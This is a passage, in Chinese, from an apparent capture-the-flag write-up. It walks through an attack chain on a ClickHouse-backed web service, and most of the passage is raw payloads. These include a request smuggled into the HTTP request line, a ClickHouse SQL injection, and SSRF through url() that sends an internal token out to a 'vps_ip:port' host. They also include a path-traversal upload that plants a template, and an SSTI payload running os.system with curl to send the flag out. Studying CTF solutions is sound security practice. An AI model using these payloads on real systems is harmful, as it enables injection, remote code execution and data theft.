 这样子即可得到 token 的值

```plain
POST /query  HTTP/1.1/../../api/ping HTTP/1.1
   Host: 192.168.23.137:8013
   Content-Length: 176
   Pragma: no-cache
   Cache-Control: no-cache
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Mobile Safari/537.36
   Origin: http://192.168.23.137:8013
   Content-Type: application/x-www-form-urlencoded
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://192.168.23.137:8013/
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Connection: close

   id=1 and (SELECT * FROM url('http://vps_ip:port/?a='||hex((select * FROM url('http://backend:8001/api/token', 'TabSeparatedRaw', 'x String'))), 'TabSeparatedRaw', 'x String'));
```

[![](assets/1706957701-6526d61aa169aa74cf6d5a1702ade41e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202175931-c28d38be-c1b1-1.png)

5、拿到`Token`的值，可以通过`/api/upload`接口进行文件上传并且目录穿越到`templates`目录，实现`SSTI`。

```plain
$code:  
        __import__('os').system('curl http://vps_ip:port/?flag=`/readflag | base64`')
```

6、这样还是需要通过`ClickHouse`来请求`/api/upload`接口，完成文件的上传，通过`INSERT INTO FUNCTION 是用于将数据插入到自定义函数中的语法`。

```plain
INSERT INTO FUNCTION url('http://backend:8001/api/upload', 'TabSeparatedRaw', 'x String', headers('Content-Type'='multipart/form-data; boundary=----test', 'X-Access-Token'='36044d6e99708446ae269b0398fee3ab')) VALUES ('------test\r\nContent-Disposition: form-data; name="myfile"; filename="../templates/test.html"\r\nContent-Type: text/plain\r\n\r\n$code:\r\n    __import__(\'os\').system(\'curl http://ip:port/?flag=`/readflag | base64`\')\r\n------test--');','TabSeparatedRaw','x String')
```
